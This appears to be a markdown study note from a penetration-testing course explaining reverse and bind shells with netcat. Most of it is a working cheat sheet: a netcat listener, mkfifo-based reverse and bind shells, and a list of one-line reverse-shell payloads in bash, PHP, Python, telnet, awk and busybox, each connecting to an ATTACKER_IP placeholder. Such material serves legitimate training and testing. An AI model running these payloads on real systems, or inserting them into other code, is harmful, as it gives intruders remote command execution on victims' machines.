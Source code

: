 ```yaml
---
tags:
  - reverse-shell
  - bind-shell
  - shell
---
```

### Reverse Shell

**Definition:**  
A reverse shell (or connect back shell) is a technique used in cyberattacks to gain access to a target system. It connects from the target to the attacker's machine, helping avoid detection by firewalls and security appliances.

---

### How Reverse Shells Work

1. **Set Up a Netcat Listener:**
   - Use Netcat (nc) to listen for incoming connections.
   - Command:
     ```bash
     nc -lvnp 443
     ```
   - **Flags Explanation:**
     - `-l`: Listen for incoming connections.
     - `-v`: Verbose mode (provides detailed output).
     - `-n`: Prevents DNS lookups, using IP addresses instead.
     - `-p`: Specifies the port to listen on (e.g., 443).

2. **Gaining Reverse Shell Access:**
   - Once the listener is set, the attacker executes a reverse shell payload on the compromised machine. This payload typically exploits a vulnerability to provide shell access.

   **Example Payload:**
   ```bash
   rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
   ```

   **Payload Breakdown:**
   - `rm -f /tmp/f`: Removes any existing named pipe to avoid conflicts.
   - `mkfifo /tmp/f`: Creates a named pipe at `/tmp/f` for communication.
   - `cat /tmp/f`: Reads input from the named pipe.
   - `| sh -i 2>&1`: Pipes input to an interactive shell (`bash -i`), redirecting errors to standard output.
   - `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`: Sends shell output to the attacker's IP and port, while also allowing input back through the pipe.

3. **Attacker Receives the Shell:**
   - Upon execution of the payload, the attacker receives a shell connection.
   - Example Output:
   ```bash
   nc -lvnp 443
   listening on [any] 443 ...
   connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
   ```

---
### Summary
- **Purpose:** Gain shell access from the target system.
- **Listener:** Set up with Netcat on the attacker's machine.
- **Payload Execution:** Establishes a connection back to the attacker, allowing command execution.
- **Use Cases:** Often employed by attackers during penetration tests or malicious attacks to maintain access to compromised systems.


### Bind Shell

**Definition:**  
A bind shell binds a port on the compromised system to listen for incoming connections. When a connection is established, it exposes a shell session, allowing the attacker to execute commands remotely. This method is useful when outgoing connections are restricted.

---

### How Bind Shells Work

1. **Setting Up the Bind Shell on the Target:**
   - Use the following command on the target machine:
   ```bash
   rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
   ```
   - **Command Breakdown:**
     - `rm -f /tmp/f`: Removes any existing named pipe at `/tmp/f` to avoid conflicts.
     - `mkfifo /tmp/f`: Creates a named pipe at `/tmp/f` for two-way communication.
     - `cat /tmp/f`: Reads input from the named pipe.
     - `| bash -i 2>&1`: Pipes input to an interactive shell, redirecting errors to standard output.
     - `| nc -l 0.0.0.0 8080`: Starts Netcat in listen mode on all interfaces (0.0.0.0) at port 8080.
     - `>/tmp/f`: Sends output back into the named pipe for bi-directional communication.

   - **Note:** Ports below 1024 require elevated privileges, so port 8080 is used to avoid this.

2. **Attacker Connects to the Bind Shell:**
   - Once the bind shell is set up, the attacker can connect using:
   ```bash
   nc -nv TARGET_IP 8080
   ```
   - **Command Explanation:**
     - `nc`: Invokes Netcat to establish a connection.
     - `-n`: Disables DNS resolution for faster operation.
     - `-v`: Enables verbose mode for detailed output.
     - `TARGET_IP`: The IP address of the target machine running the bind shell.
     - `8080`: The port number on which the bind shell is listening.

3. **Attacker Terminal After Connection:**
   - Example of the attacker's terminal after successfully connecting:
   ```bash
   attacker@kali:~$ nc -nv 10.10.13.37 8080 
   (UNKNOWN) [10.10.13.37] 8080 (http-alt) open
   target@tryhackme:~$
   ```

---

### Summary
- **Purpose:** Establish remote shell access on a compromised system by listening for incoming connections.
- **Setup:** Configured on the target machine using a Netcat command.
- **Connection:** The attacker connects to the bind shell to gain shell access and execute commands.


---
### Shell Payloads

A **Shell Payload** can expose a shell to an incoming connection (bind shell) or send a connection to the attacker (reverse shell). Below are popular reverse shell payloads for Linux:

#### Bash Payloads

1. **Normal Bash Reverse Shell**
   ```bash
   bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
   ```
   - Initiates an interactive bash shell, redirecting input/output through TCP to the attacker's IP on port 443.

2. **Bash Read Line Reverse Shell**
   ```bash
   exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
   ```
   - Connects to a TCP socket, reads commands, and sends output back.

3. **Bash With File Descriptor 196 Reverse Shell**
   ```bash
   0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
   ```
   - Uses file descriptor 196 for TCP communication, allowing command execution.

4. **Bash With File Descriptor 5 Reverse Shell**
   ```bash
   bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
   ```
   - Similar to the first example, using file descriptor 5.

#### PHP Payloads

1. **PHP Reverse Shell Using exec Function**
   ```bash
   php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
   ```
   - Creates a socket connection and executes a shell.

2. **PHP Reverse Shell Using shell_exec Function**
   ```bash
   php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
   ```

3. **PHP Reverse Shell Using system Function**
   ```bash
   php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
   ```

4. **PHP Reverse Shell Using passthru Function**
   ```bash
   php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
   ```

5. **PHP Reverse Shell Using popen Function**
   ```bash
   php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
   ```

#### Python Payloads

1. **Python Reverse Shell by Exporting Environment Variables**
   ```bash
   export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
   ```

2. **Python Reverse Shell Using the subprocess Module**
   ```bash
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
   ```

3. **Short Python Reverse Shell**
   ```bash
   python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
   ```

#### Other Payloads

1. **Telnet Reverse Shell**
   ```bash
   TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
   ```

2. **AWK Reverse Shell**
   ```bash
   awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
   ```

3. **BusyBox Reverse Shell**
   ```bash
   busybox nc ATTACKER_IP 443 -e sh
   ```
